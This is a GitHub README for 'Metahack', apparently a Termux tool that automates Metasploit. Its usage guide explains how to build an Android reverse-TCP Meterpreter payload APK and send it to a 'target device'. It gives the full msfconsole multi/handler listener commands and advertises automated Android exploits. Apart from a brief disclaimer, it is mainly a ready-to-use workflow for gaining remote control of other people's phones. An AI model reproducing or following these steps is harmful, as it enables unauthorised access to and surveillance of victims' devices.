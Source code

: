 #  Metahack - Advanced Metasploit Automation Tool 
<p align="center">
  <img src="https://img.shields.io/github/stars/HYDRA-TERMUX/Metahack?style=for-the-badge" alt="GitHub Repo stars">
  <img src="https://img.shields.io/github/forks/HYDRA-TERMUX/Metahack?style=for-the-badge" alt="GitHub forks">
  <img src="https://img.shields.io/github/issues/HYDRA-TERMUX/Metahack?style=for-the-badge" alt="GitHub issues">
  <img src="https://img.shields.io/github/license/HYDRA-TERMUX/Metahack?style=for-the-badge" alt="GitHub license">
</p>

🚀 **Metahack** is a **powerful penetration testing tool** that automates Metasploit in Termux. It helps ethical hackers and cybersecurity professionals **generate payloads, automate exploits, and manage sessions easily**. Whether you’re a beginner or an expert, Metahack simplifies Metasploit usage and boosts efficiency.  

---

## 🚀 Features  

✅ **Automated Metasploit Setup** – No manual installation needed!  
✅ **One-Click Payload Generator** – Easily create payloads for Android, Windows, and Linux.  
✅ **Pre-Configured Exploits** – Execute common Metasploit exploits effortlessly.  
✅ **Session Management** – Monitor and control active Meterpreter sessions.   
✅ **User-Friendly Interface** – Simple CLI with guided steps.  

---

## 📌 Requirements  

Before using Metahack, ensure you have:  
- ✅ **Android device** with **Termux** installed.  
- ✅ At least **1GB of free storage**.  
- ✅ **Stable internet connection** for downloading dependencies.  
- ✅ Basic understanding of Metasploit Framework (MSF).  

---

## 🛠 Installation  

To install Metahack on Termux, run the following commands:  

```bash
pkg update && pkg upgrade -y  
pkg install git python curl -y  
git clone https://github.com/HYDRA-TERMUX/Metahack  
cd Metahack  
chmod +x install.sh  
bash install.sh 
```

After installation, launch the tool with:  

```bash
bash metarun.sh
```

🔹 **Metahack will handle Metasploit installation and setup automatically!**  

---

## 🎯 Usage Guide  

### 🔹 Generate an Android Payload  

1. Select **Payload Generator** from the main menu.  
2. Enter the target **LHOST (your IP address)**.  
3. Enter the **LPORT (listening port)**.  
4. The payload APK will be generated and saved in the `output` folder.  
5. Send the APK to the target device and start the listener in Metasploit:  

```bash
msfconsole -q  
use exploit/multi/handler  
set payload android/meterpreter/reverse_tcp  
set LHOST <Your-IP>  
set LPORT <Port>  
exploit  
```

### 🔹 Start Metasploit Console  

Metahack allows you to launch Metasploit directly:  

```bash
bash metarun.sh --msf
```

### 🔹 Automate Exploits  

Run pre-configured Metasploit scripts for automated attacks:  

```bash
bash metarun.sh --exploit android
```
## 📥One-Click Payload Generator

![Metahack Screenshot](IMG/website.jpg)

---

## 📸 Screenshots  

![Metahack Screenshot](IMG/user_int.jpg)


---

## ⚠️ Legal Disclaimer  

🚨 **Warning!** Metahack is a tool for **ethical hacking, penetration testing, and educational purposes only**.  
🚫 Unauthorized access to devices, networks, or systems **without permission is illegal**.  
📜 The developer is **not responsible for any misuse or illegal activities** performed using this tool.  

---

## 💡 Contributing  

Want to improve Metahack? We welcome contributions!  

1. **Fork the repository** on GitHub.  
2. **Create a new branch** for your changes.  
3. **Make improvements** (bug fixes, features, etc.).  
4. **Submit a pull request** with a detailed explanation.  

---

## 📬 Contact & Support  

📩 **Developer:** HYDRA TERMUX  
🐞 **Report Bugs:** Open an [issue](https://github.com/HYDRA-TERMUX/Metahack/issues).  
⭐ **Like this project?** Give it a **star** on GitHub!  

---


### 🚀 **Turn your Android into a powerful hacking machine with Metahack!**  
[![Download Metahack](https://img.shields.io/badge/Download-Metahack-blue?style=for-the-badge)](https://github.com/HYDRA-TERMUX/Metahack/archive/refs/heads/main.zip)


